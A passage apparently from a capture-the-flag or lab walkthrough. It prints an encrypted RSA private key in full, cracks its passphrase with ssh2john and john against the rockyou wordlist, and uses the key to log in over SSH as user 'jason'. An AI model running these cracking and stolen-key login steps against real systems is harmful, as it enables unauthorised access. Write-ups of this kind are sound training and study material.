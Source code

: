 There it is, let's get it:


```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,983BDF3BE962B7E88A5193CD1551E9B9

nspZgFs2AHTCqQUdGbA0reuNel2jMB/3yaTZvAnqYt82m6Kb2ViAqlFtrvxJUTkx
vbc2h5vIV7N54sHQvFzmNcPTmOpy7cp4Wnd5ttgGpykiBTni6xeE0g2miyEUu+Qj
JaLEJzzdiehg0R3LDqZqeuVvy9Cc1WItPuKRLHJtoiKHsFvm9arbW4F/Jxa7aVgH
l5rfo6pEI0liruklDfFrDjz96OaRtdkOpM3Q3GxYV2Xm4h/Eg0CamC7xJC8RHr/w
EONcJm5rHB6nDVV5zew+dCpYa83dMViq7LOGEZ9QdsVqHS59RYEffMc45jkKv3Kn
ky+y75CgYCWjtLbhUc4Ml21kYz/pDdObncIRH3m6aF3w/b0F/RlyAYQYUYGfR3/5
Y9a2/hVbBLX7oM+KQqWHD5c05mLNfAYWTUxtbANVy797CSzYssMcCrld7OnDtFx7
qPonOIRjgtfCodJuCou0o3jRpzwCwTyfOvnd29SF70rN8klzjpxvqNEEbSfnh04m
ss1fTMX1eypmCsHecmpjloTxdPdj1aDorwLkJZtn7h+o3mkWG0H8vnCZArtxeiiX
t/89evJXhVKHSgf83xPvCUvnd2KSjTakBNmsSKoBL2b3AN3S/wwapEzdcuKG5y3u
wBvVfNpAD3PmqTpvFLClidnR1mWE4r4G1dHwxjYurEnu9XKO4d+Z1VAPLI2gTmtd
NblKTwZQCWp20rRErOyT9MxjT1gTkVmpiJ0ObzQHOGKJIVaMS8oEng2gYs48nugS
AsafORd3khez4r/5g9opRj8rdCkK83fG5WA15kzcOJ+BqiKyGU26hCbNuOAHaAbq
Zp+Jqf4K6FcKsrL2VVCmPKOvkTEItVIFGDywp3u+v0LGjML0wbrGtGzP7pPqYTZ5
gJ4TBOa5FUfhQPAJXXJU3pz5svAHgTsTMRw7p8CSfedCW/85bMWgzt5XuQdiHZA0
FeZErRU54+ntlJ1YdLEjVWbhVhzHyBXnEXofj7XHaNvG7+r2bH8GYL6PeSK1Iiz7
/SiK/v4kjOP8Ay/35YFyfCYCykhdJO648MXb+bjblrAJldeXO2jAyu4LlFlJlv6/
bKB7viLrzVDSzXIrFHNoVdFmLqT3yEmui4JgFPgtWoHUOQNUw8mDdfCR0x3GAXZP
XIU1Yn67iZ9TMz6z8HDuc04GhiE0hzI6JBKJP8vGg7X8rBuA7DgoFujSOg7e8HYX
7t07CkDJcAfqy/IULQ8pWtEFTSXz1bFpl360v42dELc6BwhYu4Z4qza9FtYS0L/d
ts5aw3VS07Xp5v/pX+RogV8uIa0jOKTkVy5ZnnlJk1qa9zWX3o8cz0P4TualAn+h
dQBVNOgRIZ11a6NU0bhLCJTL2ZheUwe9MTqvgRn1FVsv4yFGo/hIXb6BtXQE74fD
xF6icxCBWQSbU8zgkl2QHheONYdfNN0aesoFGWwvRw0/HMr4/g3g7djFc+6rrbQY
xibeJfxvGyw0mp2eGebQDM5XiLhB0jI4wtVlvkUpd+smws03mbmYfT4ghwCyM1ru
VpKcbfvlpUuMb4AH1KN0ifFJ0q3Te560LYc7QC44Y1g41ZmHigU7YOsweBieWkY2
-----END RSA PRIVATE KEY-----
```

It is encrypted, which means we need to use `ssh2john` to crack it:

```
nano id_rsa
ssh2john id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
1a2b3c4d (id_rsa)
```

There we go, we got it, let's proceed to ssh then:

```
chmod 600 id_rsa

ssh jason@IP -i id_rsa
```


![Pasted image 20250609162846.png](../../IMAGES/Pasted%20image%2020250609162846.png)
